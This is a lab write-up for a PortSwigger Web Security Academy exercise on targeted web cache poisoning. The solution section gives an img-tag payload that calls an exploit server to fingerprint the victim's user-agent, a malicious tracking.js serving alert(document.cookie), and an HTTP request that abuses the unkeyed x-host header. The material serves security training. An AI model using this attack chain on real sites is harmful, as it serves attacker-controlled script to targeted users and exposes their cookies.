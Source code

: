 # [Lab: Targeted web cache poisoning using an unknown header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header)

## Lab

This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

## Vary header

The rudimentary way that the `Vary` header is often used can also provide attackers with a helping hand. The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. It is commonly used to specify that the `User-Agent` header is keyed, for example, so that if the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

This information can also be used to construct a multi-step attack to target a specific subset of users. For example, if the attacker knows that the `User-Agent` header is part of the cache key, by first identifying the user agent of the intended victims, they could tailor the attack so that only users with that user agent are affected. Alternatively, they could work out which user agent was most commonly used to access the site, and tailor the attack to affect the maximum number of users that way.

## Analysis

Param Miner extension results: `x-host` is an unkeyed header.

## Solutions

upload a comment to any post: `<img src="https://exploit-id.exploit-server.net/log">`, observe the log to know the bot's user-agent.

craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET / HTTP/1.1
Host: id.web-security-academy.net
User-Agent: observed-user-agent-of-bot
x-host: exploit-id.exploit-server.net
```
